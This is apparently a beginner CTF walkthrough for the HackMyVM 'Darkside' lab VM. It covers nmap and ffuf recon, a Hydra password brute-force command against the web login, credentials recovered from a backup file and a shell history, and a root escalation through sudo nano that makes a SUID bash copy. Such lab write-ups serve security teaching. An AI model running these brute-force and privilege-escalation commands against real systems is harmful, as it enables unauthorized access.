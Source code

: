 ```yaml
---
layout: post
title: "HackMyVM: Darkside"
---
```

A bite-sized and quirky VM that's easy to pwn, but you have to poke your nose around to do so. Perfect for beginners.

### Recon

**nmap**

```
Nmap scan report for 192.168.56.107  
Host is up (0.00032s latency).  
Not shown: 998 closed ports  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)  
80/tcp open  http    Apache httpd 2.4.56 ((Debian))  
| http-cookie-flags:    
|   /:    
|     PHPSESSID:    
|_      httponly flag not set  
|_http-server-header: Apache/2.4.56 (Debian)  
|_http-title: The DarkSide  
MAC Address: 08:00:27:29:44:83 (Oracle VirtualBox virtual NIC)  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 13.41 seconds
```

A standard 22-80 situation. We'll go for HTTP first, of course.

**the website**

![[Pasted image 20231120225907.png]]

A plain login page. Standard credentials such as admin:admin don't work on it when we test. Since there isn't much else to go off of, we do some dirbusting.

```
thehated@TRYHARDER:~/ExploitScripts$ ffuf -u http://192.168.56.107/FUZZ -w ~/SecLists/Discovery/Web-Content/raft-small-words.txt    
  
       /'___\  /'___\           /'___\          
      /\ \__/ /\ \__/  __  __  /\ \__/          
      \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\         
       \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/         
        \ \_\   \ \_\  \ \____/  \ \_\          
         \/_/    \/_/   \/___/    \/_/          
  
      v1.1.0  
________________________________________________  
  
:: Method           : GET  
:: URL              : http://192.168.56.107/FUZZ  
:: Wordlist         : FUZZ: /home/thedoug/SecLists/Discovery/Web-Content/raft-small-words.txt  
:: Follow redirects : false  
:: Calibration      : false  
:: Timeout          : 10  
:: Threads          : 40  
:: Matcher          : Response status: 200,204,301,302,307,401,403  
________________________________________________  
  
.html                   [Status: 403, Size: 279, Words: 20, Lines: 10]  
.htm                    [Status: 403, Size: 279, Words: 20, Lines: 10]  
backup                  [Status: 301, Size: 317, Words: 20, Lines: 10]  
.                       [Status: 200, Size: 683, Words: 162, Lines: 30]  
.htaccess               [Status: 403, Size: 279, Words: 20, Lines: 10]  
.php                    [Status: 403, Size: 279, Words: 20, Lines: 10]  
.phtml                  [Status: 403, Size: 279, Words: 20, Lines: 10]  
.htc                    [Status: 403, Size: 279, Words: 20, Lines: 10]  
.html_var_DE            [Status: 403, Size: 279, Words: 20, Lines: 10]  
server-status           [Status: 403, Size: 279, Words: 20, Lines: 10]  
.htpasswd               [Status: 403, Size: 279, Words: 20, Lines: 10]  
.html.                  [Status: 403, Size: 279, Words: 20, Lines: 10]  
.html.html              [Status: 403, Size: 279, Words: 20, Lines: 10]  
.htpasswds              [Status: 403, Size: 279, Words: 20, Lines: 10]  
.htm.                   [Status: 403, Size: 279, Words: 20, Lines: 10]  
.htmll                  [Status: 403, Size: 279, Words: 20, Lines: 10]  
.phps                   [Status: 403, Size: 279, Words: 20, Lines: 10]  
.html.old               [Status: 403, Size: 279, Words: 20, Lines: 10]  
.html.bak               [Status: 403, Size: 279, Words: 20, Lines: 10]  
.ht                     [Status: 403, Size: 279, Words: 20, Lines: 10]  
.htm.htm                [Status: 403, Size: 279, Words: 20, Lines: 10]  
.htgroup                [Status: 403, Size: 279, Words: 20, Lines: 10]  
.html1                  [Status: 403, Size: 279, Words: 20, Lines: 10]  
.hta                    [Status: 403, Size: 279, Words: 20, Lines: 10]  
.html.printable         [Status: 403, Size: 279, Words: 20, Lines: 10]  
.html.LCK               [Status: 403, Size: 279, Words: 20, Lines: 10]  
.htm.LCK                [Status: 403, Size: 279, Words: 20, Lines: 10]  
.htmls                  [Status: 403, Size: 279, Words: 20, Lines: 10]  
.htx                    [Status: 403, Size: 279, Words: 20, Lines: 10]  
.html.php               [Status: 403, Size: 279, Words: 20, Lines: 10]  
.htaccess.bak           [Status: 403, Size: 279, Words: 20, Lines: 10]  
.htlm                   [Status: 403, Size: 279, Words: 20, Lines: 10]  
.htm2                   [Status: 403, Size: 279, Words: 20, Lines: 10]  
.htuser                 [Status: 403, Size: 279, Words: 20, Lines: 10]  
.html-                  [Status: 403, Size: 279, Words: 20, Lines: 10]  
:: Progress: [43003/43003] :: Job [1/1] :: 7167 req/sec :: Duration: [0:00:06] :: Errors: 0 ::
```

`/backup` o.o; that's always interesting. Piques our curiosity. What data could be in there?

![[Pasted image 20231121172915.png]]

vote.txt... wonder what that could be.

```
rijaba: Yes
xerosec: Yes
sml: No
cromiphi: No
gatogamer: No
chema: Yes
talleyrand: No
d3b0o: Yes

Since the result was a draw, we will let you enter the darkside, or at least temporarily, good luck kevin.
```

There's our username! Since we don't have any sort of password leads, we may as well try to brute force it.

### User

To brute force passwords, we'll use our long-time friend Hydra! Employing this command (mind my IP and wordlist, replace those with yours), we'll surely find a user:pass combination that logs us in:
```
hydra -l kevin -P ~/SecLists/Passwords/Leaked-Databases/rockyou.txt 192.168.56.107 http-post-form "/:user=kevin&pass=^PASS^:invalid"
```

After a grand total of two seconds, we find the million-dollar prize:
```
kevin:iloveyou
```

When we log in with our prize, we see a string of encoded text. At least, that's what it appears like:

![[Pasted image 20231121182242.png]]

```
kgr6F1pR4VLAZoFnvRSX1t4GAEqbbph6yYs3ZJw1tXjxZyWCC
```

Plugging this into CyberChef (because it simply doesn't resemble Base64 at all) and employing the magic module, we see our decoded text:
![[Pasted image 20231121182545.png]]

It wasn't Base64, that's for sure! Regardless, we now have a new potential path to visit on the site: `/sfqekmgncutjhbypvxda.onion`

![[Pasted image 20231121182742.png]]

Obviously, we have our answer: the dark side. But where do we answer this? Let's peer inside the source:
```
<!DOCTYPE html>
<html>
<head>
    <title>Which Side Are You On?</title>
    <style>
        body {
            background-color: black;
            color: white;
            font-size: 24px;
            margin: 0;
        }
    </style>
</head>
<body>
    <div>
        <p>Which Side Are You On?</p>
    </div>

    <script>
        var sideCookie = document.cookie.match(/(^| )side=([^;]+)/);
        if (sideCookie && sideCookie[2] === 'darkside') {
            window.location.href = 'hwvhysntovtanj.password';
        }
    </script>

    
</body>
</html>
```

If the `side` cookie in our browser is `darkside`, it directs us to the sub-path `hwvhysntovtanj.password`. We don't have to change the cookie; we can simply go to the path `/sfqekmgncutjhbypvxda.onion/hwvhysntovtanj.password`. This is a text file that reads: `kevin:ILoveCalisthenics`. This must be our ticket to SSH town! Attempts to log in with these credentials are affirmative, to say the least.
```
kevin@darkside:~$
```

### Root

Inside kevin's home directory, there's a non-standard file:
```
kevin@darkside:~$ ls -la      
total 796  
drwxr-xr-x 4 kevin kevin   4096 Nov 22 01:05 .  
drwxr-xr-x 4 root  root    4096 Oct 15 13:19 ..  
lrwxrwxrwx 1 kevin kevin      9 Oct 30 08:41 .bash_history -> /dev/null  
-rw-r--r-- 1 kevin kevin    220 Oct 15 12:54 .bash_logout  
-rw-r--r-- 1 kevin kevin   3526 Oct 15 12:54 .bashrc  
drwx------ 3 kevin kevin   4096 Nov 22 01:02 .gnupg  
-rw-r--r-- 1 kevin kevin    113 Oct 15 13:37 .history  
-rw-r--r-- 1 kevin kevin 776746 May 12  2022 linpeas.sh  
drwxr-xr-x 3 kevin kevin   4096 Oct 15 13:37 .local  
-rw-r--r-- 1 kevin kevin    807 Oct 15 12:54 .profile  
-rw-r--r-- 1 kevin kevin     19 Oct 15 13:38 user.txt
```

`.history` isn't a file you see by default. Let's get our hands on dem contents:
```
ls -al  
hostname -I  
echo "Congratulations on the OSCP Xerosec"  
top  
ps -faux  
su rijaba  
ILoveJabita  
ls /home/rijaba
```

From this file, we can infer that `ILoveJabita` is rijaba's password. A little pivoting on the way to root never hurt anyone.

**From the Rijaba user**

One of the first checks I always run is `sudo -l` to sniff any potential programs we could use. There is one!
```
rijaba@darkside:~$ sudo -l  
Matching Defaults entries for rijaba on darkside:  
   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin  
  
User rijaba may run the following commands on darkside:  
   (root) NOPASSWD: /usr/bin/nano
```

`nano` allows you to execute commands directly from the editor itself through the CTRL+T command. I personally used this line to copy the bash shell and make it SUID:
```
cp /bin/bash /tmp/thehated; chmod u+s /tmp/thehated
```

Once you run the SUID shell with the -p flag, the root shell is achieved; truly on the dark side now, huh? Or maybe not.
```
thehated-5.1#
```
